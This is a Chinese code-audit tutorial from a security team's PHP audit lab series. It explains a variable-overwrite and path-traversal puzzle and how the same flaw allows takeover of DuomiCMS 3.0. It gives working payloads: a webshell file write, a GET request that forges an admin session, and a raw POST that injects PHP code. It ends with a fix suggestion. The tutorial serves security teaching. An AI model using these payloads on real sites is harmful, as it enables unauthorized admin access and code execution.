 本文由红日安全成员： **七月火** 编写，如有不当，还望斧正。

## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 [**PHP-Audit-Labs**](https://github.com/hongriSec/PHP-Audit-Labs) 。现在大家所看到的系列文章，属于项目 **第一阶段** 的内容，本阶段的内容题目均来自 [PHP SECURITY CALENDAR 2017](https://www.ripstech.com/php-security-calendar-2017/) 。对于每一道题目，我们均给出对应的分析，并结合实际CMS进行解说。在文章的最后，我们还会留一道CTF题目，供大家练习，希望大家喜欢。下面是 **第14篇** 代码审计文章：

## Day 14 - Snowman

题目叫做雪人，代码如下：

![1](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/1.png)

**漏洞解析** ：

这道题目讲的是一个 **变量覆盖** 与 **路径穿越** 问题。在 **第10-11行** 处， **Carrot** 类的构造方法将超全局数组 **$_GET** 进行变量注册，这样即可覆盖 **第8行** 已定义的 **$this->** 变量。而在 **第16行** 处的析构函数中， **file_put_contents** 函数的第一个参数又是由 **$this->** 变量拼接的，这就导致我们可以控制写入文件的位置，最终造成任意文件写入问题。下面我们试着使用 **payload** ：**id=../var/www/html/shell.php&shell=',)%0a<?php phpinfo();?>//** 写入 **webshell** ：

![2](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/2.png)

## 实例分析

本次实例分析，我们选取的是 **[DuomiCMS_3.0](https://duomicms.net)** 最新版。该CMS存在全局变量注册问题，如果程序编写不当，会导致变量覆盖，本次我们便来分析 **由变量覆盖导致的getshell** 问题。

首先我们先来看一下该CMS中的全局变量注册代码，该代码位于 **duomiphp/common.php** 文件中，如下：

![3](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/3.png)

![4](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/4.png)

其中 **_RunMagicQuotes** 函数将特殊符号，使用 **addslashes** 函数进行转义处理。我们来搜索 **fwrite** 函数，看看是否存在可利用的写文件程序（为了写 **shell** ）。**phpstorm** 程序搜索结果如下：

![5](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/5.png)

我们可以看到有一个 **admin\admin_ping.php** 文件中，存在可利用的地方，因为其写入的目标文件为 **PHP** 程序，且写入内容中存在两个可控变量。其代码具体如下：

![6](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/6.png)

**$weburl** 变量和 **$token** 变量从 **POST方式** 获取，其变量也只是经过 **_RunMagicQuotes** 函数过滤处理，以及 **duomiphp\webscan.php** 文件的过滤规则，但是并不影响我们写shell。过滤规则具体如下：

![7](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/7.png)

然而要想利用这个文件，我们就必须是 **admin** 身份，不然没有权限访问该文件。所以我们看看该CMS是如何对用户身份进行认定的，是否可以利用之前的变量覆盖来伪造身份呢？

跟进 **admin\admin_ping.php** 文件开头包含的 **admin\config.php** 文件，那么我们要关注的是如下代码：

![8](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/8.png)

我们需要知道程序是如何对用户的身份进行处理的，跟进 **duomiphp\check.admin.php** 文件，关注如下代码：

![9](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/9.png)

我们可以看到这里记录了用户名字、所属组、用户，再来看看 **admin** 所对应的这三个值分别是多少。找到 **admin\login.php** 文件，如下图，我们只要让 **checkUser** 方法返回1即是admin用户。

![10](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/10.png)

跟进 **duomiphp\check.admin.php** 文件的 **checkUser** 方法，具体代码如下：

![11](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/11.png)

我们直接使用正确admin账号密码登录后台，可以观察到admin用户对应的用户和所属组均为1。

![12](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/12.png)

那么现在我们只要利用变量覆盖漏洞，覆盖 **session** 的值，从而伪造 **admin** 身份，然后就可以愉快的写shell了。

## 漏洞利用

我们需要先找一些开启 **session_start** 函数的程序来辅助我们伪造身份，我们这里就选择 **member/share.php** 文件。

![13](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/13.png)

我们先访问如下 **payload** ：

```php
http://localhost/member/share.php?_SESSION[duomi_group_]=1&_SESSION[duomi_admin_]=1
```

当我们访问 **payload** 后，我们对应 **session** 的用户和所属组都变成了1。然后，我们再POST如下数据包写入webshell：

```http
POST /admin/admin_ping.php?action=set HTTP/1.1
Host: www.localhost.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

weburl=";phpinfo();//&token=
```

![14](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/14.png)

## 修复建议

实际上，这个漏洞和 **Dedecms** 变量覆盖漏洞很相似。而在 **Dedecms** 的官方修复代码中，多了检测变量名是否为PHP原有的超全局数组，如果是，则直接退出并告知变量不允许，具体修复代码如下：

![15](CTF%20总结/PHP-Audit-Labs/Part1/Day14/files/15.png)

## 结语

看完了上述分析，不知道大家是否对 **变量覆盖** 导致的漏洞有了更加深入的理解，文中用到的 **CMS** 可以从这里( **[DuomiCMS_3.0](https://duomicms.net/portal.php?mod=attachment&id=23)** )下载，当然文中若有不当之处，还望各位斧正。如果你对我们的项目感兴趣，欢迎发送邮件到 **hongrisec@gmail.com** 联系我们。**Day14** 的分析文章就到这里，我们最后留了一道CTF题目给大家练手，题目如下：链接: <https://pan.baidu.com/s/1pHjOVK0Ib-tjztkgBxe3nQ> 密码: 59t2（题目环境：PHP5.2.x）

题解我们会阶段性放出，如果大家有什么好的解法，可以在文章底下留言，祝大家玩的愉快！
